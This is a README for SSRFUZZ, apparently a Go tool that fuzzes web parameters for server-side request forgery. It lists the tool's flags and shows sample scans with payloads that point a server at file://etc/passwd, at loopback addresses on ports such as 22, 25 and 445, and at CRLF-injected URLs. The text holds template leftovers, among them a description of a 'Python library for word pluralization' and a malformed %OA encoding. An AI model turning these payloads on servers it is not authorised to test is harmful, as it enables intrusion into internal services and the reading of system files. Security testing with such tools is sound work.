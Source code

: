 # SSRFUZZ

Foobar is a Python library for dealing with word pluralization.

## Installation

Run the following command to intsall

```bash
go get -u github.com/ryandamour/ssrfuzz
```

## Usage

```go
===============================================================
SSRFUZZ v1.0.0
by Ryan D'Amour @ryandamour 
===============================================================A scanner for all your SSRF Fuzzing needs

Usage:
  crlfmap scan [flags]

Flags:
      --delay int              The time each threads waits between requests in milliseconds (default 100)
  -d, --domains string         Location of domains with parameters to scan
  -h, --help                   help for scan
  -x, --http-method string     HTTP Method - GET or POST (default "GET")
  -o, --output string          Location to save results
      --skip-crlf              Skip CRLF fuzzing
      --skip-network           Skip network fuzzing
      --skip-scheme            Skip scheme fuzzing
  -s, --slack-webhook string   Slack webhook to send findings to a channel
  -t, --threads int            Number of threads to run crlfmap on (default 50)
      --timeout int            The amount of time needed to close a connection that could be hung (default 10)
  -u, --user-agent string      User agent for requests (default "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36")
  -v, --verbose                verbose output

```go
* Scanning http and scheme payloads w/ crlf:

echo "http://192.168.1.10/test.php?u=" | go run main.go scan
 
[!] Scheme payload match:
* http://192.168.1.10/test.php?u=file://etc/passwd 200

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.1.0.0:80 200
* http://192.168.1.10/test.php?u=http://127.1.0.0:8080 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:443 500
* http://192.168.1.10test.php?u=http://127.1.0.0:22 500
* http://192.168.1.10/test.ph?u=http://127.1.0.0:25 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:445 500

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
```

```go
* Scanning only http payloads w/ crlf:

echo "http://192.168.1.10/test.php?u=" | go run main.go scan --skip-scheme

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:443%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:443%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:25%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:25%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:22%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:22%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:445%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:445%23%OA 500
```

```go
* Scanning only http payloads w/ crlf:

echo "http://192.168.1.10/test.php?u=" | go run main.go scan --skip-scheme --skip-crlf

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.1.0.0:80 200
* http://192.168.1.10/test.php?u=http://127.1.0.0:8080 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:443 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:22 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:25 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:445 500
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)

